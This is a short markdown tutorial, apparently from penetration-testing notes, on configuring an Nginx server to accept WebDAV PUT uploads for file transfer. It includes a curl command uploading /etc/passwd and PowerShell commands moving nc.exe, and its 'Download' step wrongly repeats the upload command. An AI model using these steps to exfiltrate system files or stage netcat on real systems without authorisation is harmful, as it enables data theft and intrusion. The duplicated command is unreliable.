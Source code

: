 
# NGINX
Creating a Nginx server
1. Create directory to handle uploaded files
	- `sudo mkdir -p /var/www/uploads/SecretUploadDirectory`
2. Change owner to www-data
	- `sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory`
3. Create the Nginx  config file
	- `sudo touch /etc/nginx/sites-available/upload.conf`

```c
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

4. Symlink our Site to the sites-enabled Directory
	- `sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/`
5. Start Nginx
	- `sudo systemctl restart nginx.service`
6. Verify errors if any
	- `tail -2 /var/log/nginx/error.log`
7. Delete default config to stop binding to 80 if that's the issue
	- `sudo rm /etc/nginx/sites-enabled/default`
8. Then can test upload file to this server with curl (locally)
	- `curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt`
9. From other machine, can upload and download
	- Linux upload: 
		- `curl -T /path/to/file http://<your-ip>:9001/SecretUploadDirectory/filename.bin
	- Windows upload:
		- `Invoke-WebRequest -Uri http://<your-ip>:9001/SecretUploadDirectory/nc.exe -Method Put -InFile .\nc.exe
	- Download:
		- `Invoke-WebRequest -Uri http://<your-ip>:9001/SecretUploadDirectory/nc.exe -Method Put -InFile .\nc.exe`